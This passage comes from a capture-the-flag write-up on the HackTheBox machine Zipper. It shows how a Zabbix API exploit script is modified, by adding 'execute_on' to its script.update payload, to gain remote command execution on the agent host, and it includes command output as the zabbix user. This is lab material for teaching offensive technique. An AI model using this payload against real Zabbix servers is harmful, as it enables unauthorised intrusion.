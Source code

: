     }
    

So on a clean reset, the `execute_on` parameter is 1. Looking in the
[documentation on the script
object](https://www.zabbix.com/documentation/3.0/manual/api/reference/script/object),
I’ll see that means to run the command on the Zabbix server, not the agent:

![1550696824535](https://0xdfimages.gitlab.io/img/1550696824535.png)

I can see this more easily in the GUI. I’ll log in as admin, and visit
`http://10.10.10.108/zabbix/zabbix.php?action=script.edit&scriptid=1`:

![1550696919679](https://0xdfimages.gitlab.io/img/1550696919679.png)

So since the script doesn’t change it, this script will run on the server and
not the agent.

### Update to Run on Zipper

So I have a couple options I can change to get RCE on Zipper. While I’m logged
in as Admin, I can just set scriptid 1 to run on agent in the GUI. I could
also just add `execute_on` to the update payload in the script:

    
    
    ### update
            payload = {
                    "jsonrpc": "2.0",
                    "method": "script.update",
                    "params": {
                        "scriptid": "1",
                        "command": ""+cmd+"",
                        "execute_on": "0"
                    },
                    "auth" : auth['result'],
                    "id" : 0,
            }
    

Now I can run with a shell on Zipper:

    
    
    root@kali# python 39937.py 
    [zabbix_cmd]>>:  id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    [zabbix_cmd]>>:  hostname
    zipper
    

### Still Run on Zabbix

The next logical step would be to change the host id to 10105 and run commands
on Zabbix. That should work, but it doesn’t:

    